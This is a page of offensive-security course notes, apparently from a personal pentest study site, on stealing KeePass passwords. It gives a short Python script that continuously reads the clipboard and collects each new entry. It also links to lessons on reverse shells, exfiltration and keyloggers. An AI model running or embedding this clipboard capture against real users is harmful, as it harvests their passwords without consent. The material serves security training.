

repository: amandaguglieri/hackinglife · page: python/hijacking-keepass/index.html · generator: mkdocs

---
title: Hijacking Keepass Password Manager
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - python
  - python pentesting
  - scripting
  - keylogger
---

# Hijacking Keepass Password Manager

From course: [Python For Offensive PenTest: A Complete Practical Course](https://www.udemy.com/course/python-for-offensive-security-practical-course/).

??? abstract "General index of the course"
	- Gaining persistence shells (TCP + HTTP):
		- [Coding a TCP connection and a reverse shell](coding-a-tcp-reverse-shell.md).
		- [Coding a low level data exfiltration  - TCP connection](coding-a-low-level-data-exfiltration-tcp.md).
		- [Coding an http reverse shell](coding-an-http-reverse-shell.md).
		- [Coding a data exfiltration script for a http shell](coding-a-data-exfiltration-script-http-shell.md).
		- [Tunning the connection attempts](tunning-the-connection-attemps.md).
		- [Including cd command into TCP reverse shell](including-cd-command-into-tcp-reverse-shell.md).
	- Advanced scriptable shells:
		- [Using a Dynamic DNS instead of your bared attacker public ip](ddns-aware-shell.md).
		- [Making your binary persistent](making-your-binary-persistent.md). 
		- [Making a screenshot](making-a-screenshot.md). 
		- [Coding a reverse shell that searches files](coding-a-reverse-shell-that-searches-files.md). 
	- Techniques for bypassing filters: 
		- [Coding a reverse shell that scans ports](coding-a-reverse-shell-that-scans-ports.md). 
		- [Hickjack the Internet Explorer process to bypass an host-based firewall](hickjack-internet-explorer-process-to-bypass-an-host-based-firewall.md).
		- [Bypassing Next Generation Firewalls](bypassing-next-generation-firewalls.md).
		- [Bypassing IPS with handmade XOR Encryption](bypassing-ips-with-handmade-xor-encryption.md).
	- Malware and crytography:
		- [TCP reverse shell with AES encryption](tcp-reverse-shell-with-aes-encryption.md).
		- [TCP reverse shell with RSA encryption](tcp-reverse-shell-with-rsa-encryption.md).
		- [TCP reverse shell with hybrid encryption AES + RSA](tcp-reverse-shell-with-hybrid-encryption-rsa-aes.md).
	- Password Hickjacking:
		- [Simple keylogger in python](python-keylogger.md).
		- [Hijacking Keepass Password Manager](hijacking-keepass.md).
		- [Dumping saved passwords from Google Chrome](dumping-chrome-saved-passwords.md).
		- [Man in the browser attack](man-in-the-browser-attack.md).
		- [DNS Poisoning](dns-poisoning.md).
	- Privilege escalation:
		- [Weak service file permission](privilege-escalation.md).



```python
# Python For Offensive PenTest: A Complete Practical Course- All rights reserved 
# Follow me on LinkedIn  https://jo.linkedin.com/in/python2


#pip install pyperclip

import pyperclip 
import time

list = [] # we create a list which will store the clipboard content

while True: # infifnite loop to continously check the  clipboard

    if pyperclip.paste() != 'None': # if the clipboard content is not empty ...
        value = pyperclip.paste() # then we will take its value and put it into variable called value

#now to make sure that we don't get replicated items in our list before appending the value varaible into our list, we gonna check if the value is stored eariler in the first place, if not then this menas this is a new item and we will append it to our list


        if value not in list:
            list.append(value)

        print(list)

        time.sleep(3)

```
